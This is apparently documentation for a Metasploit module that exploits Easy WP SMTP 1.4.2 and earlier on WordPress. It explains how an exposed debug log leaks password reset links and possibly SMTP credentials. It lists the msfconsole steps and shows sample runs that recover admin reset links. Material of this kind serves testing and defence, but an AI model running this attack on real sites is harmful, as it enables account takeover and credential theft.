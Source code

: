 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

There is one potential false negative case where the `aggressive` option should be used.
If debug mode was enabled, however only the `Test Email` was used (or no legit email has been sent by the server),
the debug file won't exist yet.  This will be remedied by the first password reset request, but to avoid this module
being too noisy, it won't happen unless `aggressive` is set to `true`.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. directory listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of.  Defaults to `Admin`

### Aggressive

When `true`, if directory listings are enabled, however debug file can not be found, the code will proceed anyways.
Defaults to `false`.

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
resource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04.  Aggressive mode

```
resource (easy-wp-smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (easy-wp-smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (easy-wp-smtp.rb)> set verbose true
verbose => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[*] Checking for debug_log file
[-] not-vulnerable: Either debug log not turned on, or directory listings disabled.  Try AGGRESSIVE mode if this is a false positive
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (easy-wp-smtp.rb)> set aggressive true
aggressive => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version of Easy WP SMTP detected
[*] Checking for debug_log file
[-] Debug file not found, bypassing check due to AGGRESSIVE mode
[*] Sending password reset for Admin
[*] Checking for debug_log file
[+] Debug log saved to /home/h00die/.msf4/loot/20201218152659_default_1.1.1.1_5fcfd49e879f9_de_812609.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=SQRBS8Hpro9jPQdZ9vP5&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
